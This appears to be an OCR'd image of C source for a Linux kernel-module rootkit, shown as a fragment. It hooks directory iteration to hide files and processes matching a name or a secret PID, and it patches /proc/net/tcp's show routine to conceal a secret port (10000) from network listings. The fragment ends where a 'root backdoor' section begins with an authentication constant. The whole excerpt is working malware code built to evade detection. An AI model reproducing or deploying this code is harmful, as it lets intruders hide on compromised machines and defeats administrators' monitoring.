 ```c
int fake_filldir_3(struct dir_context *ctx, const char *name, int namlen, \
				loff_t offset, u64 ino, unsigned d_type);

int fake_iterate_3(struct file *filp, struct dir_context *ctx){
	real_filldir_3 = ctx->actor;
	*(filldir_t *)&ctx->actor = fake_filldir_3;

	return real_iterate_3(filp, ctx);
}

int fake_filldir_3(struct dir_context *ctx, const char *name, int namlen, \
				loff_t offset, u64 ino, unsigned d_type){
	char *endp;
	long pid;
	if(strncmp(name, NAME, strlen(NAME)) == 0){
		return 0;
	}
	pid = simple_strtol(name, &endp, 10);
	if(pid == SECRET_PROC){
		return 0;
	}
	return real_filldir_3(ctx, name, namlen, offset, ino, d_type);
}

//---------------------- hide port ->
#define NET_ENTRY "/proc/net/tcp"
#define SEQ_AFINFO_STRUCT struct tcp_seq_afinfo
#define NEEDLE_LEN	6
#define SECRET_PORT	10000
#define TMPSZ	150
#define set_afinfo_seq_op(op, path, afinfo_struct, new, old)	\
	do{	\
		struct file *filp;	\
		afinfo_struct *afinfo;	\
		filp = filp_open(path, O_RDONLY, 0);	\
		if(IS_ERR(filp)){	\
			old = NULL;	\
		}	\
		else{	\
				afinfo = PDE_DATA(filp->f_path.dentry->d_inode);	\
				old = afinfo->seq_ops.op;	\
				afinfo->seq_ops.op = new;	\
				filp_close(filp, 0);	\
		}	\
	}while(0)

int (*real_seq_show_4)(struct seq_file *seq, void *v);

int fake_seq_show_4(struct seq_file *seq, void *v){
	int ret;
	char needle[NEEDLE_LEN];
	snprintf(needle, NEEDLE_LEN, ":%04X", SECRET_PORT);
	ret = real_seq_show_4(seq, v);

	if(strnstr(seq->buf + seq->count - TMPSZ, needle, TMPSZ)){
		seq->count -= TMPSZ;
	}
	return ret;
}

//---------------------- root backdoor ->
#define AUTH "00100011F"

```
